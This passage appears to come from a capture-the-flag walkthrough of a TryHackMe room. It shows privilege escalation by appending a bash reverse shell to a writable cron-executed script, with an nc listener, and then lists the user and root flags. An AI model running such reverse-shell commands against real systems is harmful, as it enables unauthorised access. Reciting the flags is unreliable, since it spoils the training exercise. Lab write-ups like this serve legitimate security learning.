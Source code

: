 This script executes `/etc/print.sh`. Checking permissions:

```bash
ls -la /etc/print.sh
```

It was writable. That meant I could add my own payload.

Added a reverse shell:

```bash
echo "bash -i >& /dev/tcp/10.8.x.x/4444 0>&1" >> /etc/print.sh
```

Listener:

```bash
nc -lvnp 4444
```

After cron triggered, I got a shell back as lennie.

Second flag:

```
THM{f963aaa6a430f210222158ae15c3d76d}
```

---

## Flags

> Q1: User flag
> A1: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

> Q2: Root flag
> A2: THM{f963aaa6a430f210222158ae15c3d76d}

